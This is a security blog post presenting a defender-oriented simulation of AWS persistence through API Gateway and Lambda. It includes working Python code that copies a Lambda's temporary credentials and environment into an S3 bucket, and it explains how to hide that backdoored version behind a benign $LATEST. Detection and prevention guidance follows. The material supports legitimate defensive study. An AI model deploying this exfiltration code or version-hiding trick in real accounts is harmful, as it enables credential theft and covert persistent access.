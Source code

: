 ```yaml
---
title: Stealthy Persistence in AWS - A Practical Simulation for Defenders
date: 2025-06-27
authors:
  - sergiojimenez
categories:
  - lambda
  - Persistence
tags:
  - backdoor
  - persistence
  - lambda 
---
```


-----


In the world of cloud cybersecurity, attackers are always innovating. As defenders, it's crucial not only to understand attack techniques but also to **simulate them to strengthen our own defenses**. Recently, an analysis from Datadog and insights from a security analyst Eduard Agavriloae  shed light on a particularly cunning persistence technique in AWS: the use of **API Gateway and Lambda Functions for credential exfiltration**, with a "twist" that makes it even harder to detect.

This article breaks down how an attacker might implement this technique and, more importantly, **how we can simulate it in our own environment** to fine-tune our detection and prevention capabilities.
<!-- more -->
-----

### The Technique in Detail: API Gateway + Lambda for Credential Exfiltration

Datadog's original idea involved a compromised Lambda creating new IAM users for persistence. However, the "twist" that interests us is the **exfiltration of credentials from the Lambda's own execution environment (`/proc/self/environ`)**. This is stealthier because an attacker can use these exfiltrated credentials to operate from their own infrastructure, avoiding detections associated with creating new users (a highly monitored API call).

Persistence is achieved by linking this "malicious" Lambda to an **API Gateway**, creating a web entry point that the attacker can invoke at will. The subtlety is amplified by **Lambda versioning**: an attacker could deploy a "benign" version of the function as `$LATEST` (the one administrators typically check), while the "backdoored" version (with the exfiltration code) is explicitly invoked by its version number, thus remaining hidden from superficial inspections.

-----

### Setting Up the Attack Scenario: Step-by-Step Simulation

To understand and defend ourselves, we'll replicate this technique in a controlled AWS environment.

#### 1\. Preparing the AWS Ground

Before we start, security is key. Don't use your `root` account or an administrator user.

  * **Test IAM User:** Create an IAM user with the minimum necessary permissions to **create Lambda functions, API Gateways, and IAM roles**. This simulates an initial compromise with limited privileges.
  * **S3 Bucket for the "Catch":** You'll need an **S3 bucket** where the "malicious" Lambda will deposit the exfiltrated credentials. Ensure the bucket policy only allows writes from the IAM role your Lambda will assume.

#### 2\. The "Malicious" Lambda: Code and Role

This is the heart of our simulated attack. This function will read environment variables, which in Lambda include temporary credentials.

  * **Lambda Python Code:**

    ```python
    import os
    import json
    import boto3

    def lambda_handler(event, context):
        try:
            # Read environment variables, which in Lambda include temporary credentials
            environ_data = os.environ # os.environ is already a dict, no need to read from /proc/self/environ directly here for this purpose.

            # Extract specific credentials (if they exist)
            aws_access_key_id = environ_data.get('AWS_ACCESS_KEY_ID', 'N/A')
            aws_secret_access_key = environ_data.get('AWS_SECRET_ACCESS_KEY', 'N/A')
            aws_session_token = environ_data.get('AWS_SESSION_TOKEN', 'N/A')
            
            exfiltrated_data = {
                "lambda_name": context.function_name,
                "aws_access_key_id": aws_access_key_id,
                "aws_secret_access_key": aws_secret_access_key,
                "aws_session_token": aws_session_token,
                "full_environ": dict(environ_data) # Convert to dict for JSON serialization
            }

            # Send data to S3
            s3_bucket_name = "your-exfiltration-bucket" # IMPORTANT: Change this to your bucket name!
            s3_key = f"exfiltrated-creds/{context.aws_request_id}.json"
            s3_client = boto3.client('s3')
            s3_client.put_object(
                Bucket=s3_bucket_name,
                Key=s3_key,
                Body=json.dumps(exfiltrated_data, indent=4)
            )

            print(f"Credentials exfiltrated and saved to s3://{s3_bucket_name}/{s3_key}")
            
            return {
                'statusCode': 200,
                'body': json.dumps('Data exfiltrated successfully!')
            }
        except Exception as e:
            print(f"Error during exfiltration: {e}")
            return {
                'statusCode': 500,
                'body': json.dumps(f'Error during exfiltration: {str(e)}')
            }
    ```

  * **Lambda Execution Role (IAM Role):** This role must have permissions for:

      * `lambda:InvokeFunction`
      * `s3:PutObject` in *your* exfiltration bucket.
      * Basic **CloudWatch Logs** permissions (`logs:CreateLogGroup`, `logs:CreateLogStream`, `logs:PutLogEvents`).

#### 3\. The API Gateway Deception

The API Gateway is the public facade the attacker will use.

  * **Create HTTP API:** In the API Gateway console, create a simple **HTTP API**.
  * **Resource and Method:** Define a resource (e.g., `/backdoor`) and an HTTP method (e.g., `GET`).
  * **Lambda Integration:** Connect this method to your Lambda function. Ensure API Gateway has the permissions to invoke it.

#### 4\. The Key to Stealth: Lambda Versions

This is where the attacker's ingenuity comes in.

  * **"$LATEST" Version (Benign):** Upload a "clean" version of your Lambda that does something innocuous (e.g., "Hello World"). This will be the one pointed to by the `$LATEST` alias.
  * **"Backdoored" Version (Malicious):** Now, **update your Lambda's code with the credential exfiltration script**. Publish a **new version** of this function (e.g., `v2`). The key is that the attacker will explicitly invoke `arn:aws:lambda:region:account-id:function:MyFunction:v2`, while your security team might only be checking `$LATEST`.

#### 5\. Time to Invoke the Backdoor\!

  * **"Normal" Invocation:** Access the API Gateway URL without specifying a version. It should execute the `$LATEST` (benign) version.
  * **"Malicious" Invocation:** The attacker will invoke the function by specifying the backdoored version in the ARN. For example: `arn:aws:lambda:us-east-1:123456789012:function:MyFunction:v2`. After execution, you should find a JSON file with the exfiltrated credentials in your S3 bucket.

-----

### Defense and Detection: Hardening Your Environment

Once you've simulated the attack, it's time to put on your "Blue Team" hat and strengthen your defenses.

#### Monitoring and Detection (Red Flags)

  * **AWS CloudTrail:** Your best friend.
      * **Resource Creation/Modification:** Look for events like `CreateFunction`, `UpdateFunctionCode`, `PublishVersion` (for Lambdas) or `CreateRestApi`, `CreateResource`, `PUT_INTEGRATION` (for API Gateway). **Abnormalities in these events are red flags.**
      * **Exfiltration:** Monitor `PutObject` in S3, especially if you don't expect a Lambda to write to a specific bucket.
      * **Use of Exfiltrated Credentials:** `AssumeRole` or `GetFederationToken` events from **unusual IPs** or with **suspicious credentials** (the exfiltrated ones) are critical.
  * **CloudWatch Lambda Logs:** Set up alerts for execution errors or unusual patterns in your function logs. If the malicious Lambda tries to write to S3 unsuccessfully (thanks to strict policies\!), your logs will tell you.
  * **Amazon GuardDuty:** Enable it. It detects malicious activity, including unusual credential usage, communications with suspicious IPs, and exfiltration attempts.
  * **Lambda Version Monitoring:** **Crucial for this attack.** Don't just limit yourself to `$LATEST`. Use CloudWatch Lambda metrics to see **invocations by version**. If an old or "inactive" version suddenly shows invocation activity, investigate\!
  * **AWS Security Hub:** Centralizes security findings from all your services, giving you a holistic view.

#### Prevention (Blue Fortress)

  * **Principle of Least Privilege:** The golden rule. Grant your Lambdas only the absolutely necessary permissions. If a Lambda doesn't need to write to S3, don't give it `s3:PutObject` permissions\!
  * **Code Review and Secure CI/CD:** Implement security scanning (SAST) in your CI/CD pipelines to detect malicious code or vulnerabilities before deployment. Conduct regular code reviews.
  * **Credential Management:** Rotate credentials frequently and **never hardcode credentials in your code**. Leverage IAM roles and temporary credentials that Lambda already provides.
  * **API Gateway Configuration:**
      * Restric access with **Authorizers** (Lambda Authorizers, Cognito, IAM).
      * Use **AWS WAF** to protect your API Gateway from common attacks.
  * **Network Security (VPC):** If feasible, place your Lambdas inside a VPC to control network traffic more granularly with Security Groups and NACLs.
  * **AWS Organizations SCPs:** If you use AWS Organizations, Service Control Policies (SCPs) can prevent dangerous actions at the account level, acting as an additional barrier.
  * **Offensive Mindset:** Finally, and perhaps most importantly, cultivate an **offensive mindset** within your team. Understanding how attackers think and operate will enable you to build more robust and proactive defenses.

-----

Simulating these sophisticated persistence techniques isn't just a technical exercise; it's an invaluable investment in your ability to protect your AWS environments. By understanding the "how" of the attack, you'll be much better equipped to build the "how" of your defense.


-----
Sources:
- https://www.linkedin.com/in/eduard-k-agavriloae/
- https://securitylabs.datadoghq.com/articles/tales-from-the-cloud-trenches-the-attacker-doth-persist-too-much/

